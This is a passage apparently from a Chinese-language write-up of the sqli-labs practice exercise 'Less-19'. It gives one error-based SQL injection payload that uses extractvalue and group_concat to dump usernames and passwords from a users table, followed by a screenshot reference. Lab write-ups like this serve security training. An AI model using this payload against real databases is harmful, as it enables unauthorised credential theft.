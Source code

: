 

+ 爆数据名

~~~ shell
' and extractvalue(1,concat(0x7e,(select group_concat(username,password)from users),0x7e)) and '
~~~

![Less-19_2](./img/Less-19_2.PNG)
